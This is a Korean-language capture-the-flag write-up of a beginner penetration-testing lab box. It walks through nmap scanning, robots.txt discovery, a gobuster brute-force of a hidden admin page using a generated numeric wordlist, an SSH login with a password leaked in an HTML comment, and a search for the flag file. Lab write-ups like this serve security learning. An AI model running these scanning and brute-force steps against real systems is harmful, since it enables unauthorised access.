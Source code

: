 # 모의해킹 기초 (레드라쿤 모의해킹 기초 실습방)
| 강의 영상 없이 진행

이전 RemoteWebAdm에서 서버가 너무 느리고 연결이 자꾸 끊기는 현상이 있었다. 이번에는 정보수집부터 조심스럽게 접근해서 모의해킹을 진행한다.

# 정보수집
nmap을 이용하여 재시도 횟수나, min-rate를 정하여 진행하니 빠르게 진행됬다.
```
┌──(kali㉿kali)-[~/tryhackme/Robots]
└─$ nmap --top-ports 1000 --max-retries 1 --min-rate 1500 --open 10.10.250.54 -oA tcpAll
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 19:01 KST
Nmap scan report for 10.10.250.54
Host is up (0.28s latency).
Not shown: 662 closed tcp ports (conn-refused), 336 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.94 seconds

┌──(kali㉿kali)-[~/tryhackme/Robots]
└─$ nmap -p 22,80 --max-retries 1 --min-rate 1500 -Pn -n --open -sV -sC 10.10.250.54 -oA tcpDetailed
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 19:02 KST
Nmap scan report for 10.10.250.54
Host is up (0.28s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:27:95:ed:47:88:cb:69:fa:2e:19:c7:03:5f:b3:26 (RSA)
|   256 96:8e:85:5b:f6:bc:43:76:52:24:dd:72:4c:65:27:79 (ECDSA)
|_  256 22:87:05:24:cb:7a:3f:b2:a4:5e:e2:88:9a:69:b2:af (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HoneyVoice Secrets Server
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.02 seconds
```
22번 포트에서는 openssh 7.6p1 그리고 웹서버 80번 포트에서는 apache 2.4.29 버전을 사용한다. 
웹서버 타이틀 -> HoneyVoice Secrets entry
robots.txt 존재 확인 등등 네트워크 서비스 배너그래빙으로 웹 서버에 대한 추가적인 정보를 획득했다.

### Web(80)
![](1.png)
첫 웹사이트의 랜딩페이지이다. 뭔가 코드를 보여주고있는데 robots.txt 경로를 보여주고있다. 
페이지 소스에서는 별다른 정보를 얻지 못했다.

![](2.png)
`/robots.txt` 경로로 접속을 해보니 `index.php`만 Allow 가 되어잇고, /admin.html은 Disallow가 되어있다. 
`/admin.html`로 접속을 해본다!!


![](3.png)
가짜 관리자의 페이지 인것 같다. 진짜 관리자의 페이지는 `XXXX.hv.html` 파일에 있다고 한다. XXXX는 모두 숫자라고 힌트를 주고있다. 

```
# 박스의 어떤 포트들이 열려있나요?  (예. 445,3389,139,135) 
22,80

# 웹서버의 검색엔진 최적화 (SEO)에 쓰이도록 만들어졌지만, 잘못 설정될 경우 원치않은 디렉토리나 페이지를 유출할 수 있는 파일 이름은 뭔가요? 
robots.txt
```
# 취약점 진단
힌트를 보아 웹 서버가 가지고 있는 파일들을 봐야하는데 4자리의 숫자로 이루어져 있다고한다. 배시쉘 스크립트를 이용해 4자리 숫자로 된 리스트 파일을 하나 만들어 gobuster 툴을 이용해 디렉터리 브루트포싱을 하여 관리자 페이지를 획득한다.
```
┌──(kali㉿kali)-[~/tryhackme/Robots]
└─$ vim loop4.bash

#!/bin/bash

for i in {1111..9999}; do
        echo ${i}.hv.html >> admin_page.txt;
done


┌──(kali㉿kali)-[~/tryhackme/Robots]
└─$ chmod +x loop4.bash; ./loop4.bash

┌──(kali㉿kali)-[~/tryhackme/Robots]
└─$ cat admin_page.txt | head -10
1111.hv.html
1112.hv.html
1113.hv.html
1114.hv.html
1115.hv.html
1116.hv.html
1117.hv.html
1118.hv.html
1119.hv.html
1120.hv.html

┌──(kali㉿kali)-[~/tryhackme/Robots]
└─$ gobuster dir -u http://10.10.250.54/ -w admin_page.txt -t 10 | tee gobuser-admin
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.250.54/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                admin_page.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/7289.hv.html         (Status: 200) [Size: 653]
Progress: 8889 / 8890 (99.99%)
===============================================================
Finished
===============================================================

```
`/7289.hv.html` 파일의 경로를 획득했다. 웹서버에 경로를 추가해 들어간다.
![](4.png)
웹 페이지에서는 딱히 얻을 정보가 없지만 소스에서 주석으로 지워지지 않은 secret 유저의 계정 정보가 남아있는 것을 확인했다.
```
# 첫번째 플래그를 찾은 페이지는 뭐였나요? (예. /1337.hv.html) 
7289.hv.html

# secret 유저의 비밀번호는 뭔가요? 
HV-NOPERS-1337!!

# 첫번째 플래그는 뭔가요? 
GROOT{숨김숨김}
```

# 초기 침투
secret 유저의 계정정보를 파악했다. SSH 포트가 열려있는 것을 정보수집 때 파악했으니 SSH 접속을 통해서 초기 침투를 한다.
```
┌──(kali㉿kali)-[~/tryhackme/Robots]
└─$ ssh secret@10.10.250.54 
secret@10.10.250.54's password: <HV-NOPERS-1337!!>
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-206-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


110 updates can be applied immediately.
86 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Sat Mar 11 18:27:08 2023 from 192.168.40.132
$ whoami; id ;ip a
secret
uid=1000(secret) gid=1000(secret) groups=1000(secret)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:16:c7:1b:74:d1 brd ff:ff:ff:ff:ff:ff
    inet 10.10.250.54/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2967sec preferred_lft 2967sec
    inet6 fe80::16:c7ff:fe1b:74d1/64 scope link 
       valid_lft forever preferred_lft forever
$ 
$ bash
secret@honeyvoice-robots:~$

secret@honeyvoice-robots:~$ ls -al
total 40
drwxr-xr-x 4 secret secret 4096 Mar 11  2023 .
drwxr-xr-x 3 root   root   4096 Mar 11  2023 ..
lrwxrwxrwx 1 secret secret    9 Mar 11  2023 .bash_history -> /dev/null
-rw-r--r-- 1 secret secret  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 secret secret 3771 Apr  4  2018 .bashrc
drwx------ 2 secret secret 4096 Mar 11  2023 .cache
drwx------ 3 secret secret 4096 Mar 11  2023 .gnupg
-rw-r--r-- 1 secret secret  807 Apr  4  2018 .profile
-rwxrwxrwx 1 root   root     88 Mar 11  2023 .roothint.lmao
-rw------- 1 secret secret    1 Mar 11  2023 .viminfo
-rw------- 1 secret secret  118 Mar 11  2023 .Xauthority
secret@honeyvoice-robots:~$ cat .roothint.lmao 
how did you get in here? Bet you won't find the secret file though.  <  secrets.txt  > 
```
숨김 파일 되어있는 `.roothint.lmao` 파일을 열어보니 `secrets.txt` 파일에 대한 언급을 하고 있다.
```
secret@honeyvoice-robots:~$ find / -name "secrets.txt" 2> /dev/null
/etc/apache2/secrets.txt

secret@honeyvoice-robots:~$ cat /etc/apache2/secrets.txt 
GROOT{숨김숨김}
```

task를 풀기 위한 모든 정보를 얻었으니 여기서 끝!

# 취약점
1. 랜딩 페이지에 노출되어있는 robots.txt 파일의 경로 및 파일
2. `/7289.hv.html` 페이지 소스에 주석으로 되어있는 secret 유저의 계정 정보

